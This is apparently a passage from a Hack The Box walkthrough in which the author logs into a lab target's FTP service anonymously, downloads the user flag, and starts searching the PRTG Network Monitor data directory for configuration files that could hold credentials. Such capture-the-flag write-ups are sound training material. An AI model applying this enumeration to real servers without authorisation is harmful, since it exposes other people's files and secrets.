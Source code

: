 {% endhighlight %}

## Enumeration - FTP TCP/21

FTP is open, lets see if it can take anonymous logins

{% highlight bash %}
┌[ ~/hackthebox/boxes ] [master]
└─> root@kali # ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd \users\Public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
02-02-19  11:35PM                   33 user.txt
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.06 secs (0.5786 kB/s)
ftp> exit
221 Goodbye.

┌[ ~/hackthebox/boxes ] [master ?]
└─> root@kali # cat user.txt
dd5**************************5a5
{% endhighlight %}

Awesome, well that got us the user flag.  On to root!  While we are on the FTP, lets see if there is any interesting information in the PRTG configuration files.


{% highlight bash %}
┌[ ~/hackthebox/boxes/retired/10.10.10.152 ] [master ?]
└─> root@kali # ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd "/ProgramData/Paessler/PRTG Network Monitor"
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-06-20  06:38PM       <DIR>          Configuration Auto-Backups
02-06-20  07:00PM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)